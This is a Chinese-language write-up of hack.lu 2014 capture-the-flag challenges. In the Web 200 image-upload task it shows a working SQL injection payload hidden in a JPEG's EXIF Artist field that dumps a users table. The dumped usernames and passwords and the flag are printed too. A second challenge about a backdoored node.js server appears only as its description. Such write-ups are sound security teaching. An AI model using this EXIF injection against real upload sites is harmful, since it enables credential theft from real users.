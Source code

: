 0x01 Web 200 ImageUpload
------------------------

* * *

> Category: Web Points: 200 Author: SLAZ Description: In the Wild Wild Web, there are really bad guys. The sheriff doesn’t know them all.
> 
> Therefore, he needs your help. Upload pictures of criminals to this site and help the sheriff to arrest them. You can make this Wild Wild Web much less wild!!! Pictures will be deleted on regular basis! Hint: Bruteforce is not necessary to solve the challenge!!! Please don’t do this. https://wildwildweb.fluxfingers.net:1421/

当你登录之后，你能看到一个上传图片的表单和一个Login，上传了一个小辣椒之后，服务器生成了这么一个图片，并且下方还有一个表格。

![enter image description here](http://drops.javaweb.org/uploads/images/cd0797d1ebde3a29c049f5151024e5882bce05bb.jpg)

我一开始总觉得是要绕过gd的压缩，在各种调教之前的一个绕过gd压缩的代码。后来这个题被凯神秒了，他说这是个exif注入。

于是后来玩了一下，用exiftool。

最终的payload图片的部分exif信息

```
DeAdCaT-2:hack.lu2014 DeAdCaT___$ exiftool test.jpg
ExifTool Version Number         : 9.60
File Name                       : test.jpg
Directory                       : .
File Size                       : 7.2 kB
Artist                          : asd','nidaye',(select group_concat(id,0x3a,name,0x3a,password) from users)) #

```

在Model处出现数据：

```
1:sheriff:AO7eikkOCucCFJOyyaaQ,2:deputy:testpw

```

然后Login，获得fLag。

```
You are sucessfully logged in.
Flag: flag{1_5h07_7h3_5h3r1ff}

```

0x02 Crypto 150 Hidden in ρlaιn sιght
-------------------------------------

* * *

> Category: Crypto
> 
> Points: 150
> 
> Author: TheJH
> 
> Description: At our software development company, one of the top developers left in anger. He told us that he had hidden a backdoor in our node.js server application — he thinks that we can’t find it even if we try. I have attached the source code of our fileserver. After registration, you can log in, upload files and create access tokens for your files that others can use to retrieve them. He must have added some way to retrieve files without permission. And we don’t have version control, so we can’t just check his last commits. We have read the source code multiple times, but just can’t figure out how he did it. Maybe he just lied? Can you help us and demonstrate how the backdoor works? We have uploaded a file to testuser/files/flag.txt – please try to retrieve it. Connect to https://wildwildweb.fluxfingers.net:1409/. Note that all your files will be purged every 5 minutes. You can download the service code here: Download
